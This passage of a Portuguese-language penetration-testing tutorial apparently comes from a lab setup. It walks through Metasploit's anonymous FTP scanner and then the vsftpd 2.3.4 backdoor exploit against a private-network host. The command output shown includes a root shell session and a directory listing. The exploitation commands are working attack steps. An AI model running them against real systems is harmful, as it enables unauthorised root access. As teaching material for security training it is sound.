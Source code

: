 ```bash
msf6 auxiliary(scanner/ftp/anonymous) > set RHOSTS 192.168.1.30
RHOSTS => 192.168.1.30
```

Agora, execute o scanner para verificar o acesso anônimo:

```bash
msf6 auxiliary(scanner/ftp/anonymous) > run

[+] 192.168.1.30:21       - 192.168.1.30:21 - Anonymous READ (220 (vsFTPd 2.3.4))
[*] 192.168.1.30:21       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
Veja que o FTP permite login anônimo. Podemos, usar um exploit específico para uma vulnerabilidade conhecida no vsFTPd 2.3.4 (Very Secure FTP Daemon): o vsftpd_234_backdoor. Este módulo explora a vulnerabilidade do vsFTPd 2.3.4 para obter uma shell interativa. 

Para isso, digite os seguintes comandos:

```bash
msf6 auxiliary(scanner/ftp/anonymous) > use exploit/unix/ftp/vsftpd_234_backdoor

[*] No payload configured, defaulting to cmd/unix/interact
```

Configure o endereço IP do alvo e a porta (por padrão, o FTP usa a porta 21):

```bash
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 192.168.1.30
RHOSTS => 192.168.1.30

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RPORT 21
RPORT => 21
```

Agora, execute o exploit:

```bash
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 192.168.1.30:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.1.30:21 - USER: 331 Please specify the password.
[+] 192.168.1.30:21 - Backdoor service has been spawned, handling...
[+] 192.168.1.30:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 2 opened (172.18.18.105:35943 -> 192.168.1.30:6200) at 2024-08-11 17:08:34 -0300
```
O exploit foi bem-sucedido. Agora, nós temos uma shell no sistema remoto como o usuário root e podemos explorar o sistema de arquivos do alvo. Por exemplo, veja o comando `dir` que lista as pastas do diretório atual (que é o `/`):

```bash
dir

bin    dev   initrd      lost+found  nohup.out  root  sys  var
boot   etc   initrd.img  media       opt        sbin  tmp  vmlinuz
cdrom  home  lib         mnt         proc       srv   usr
```
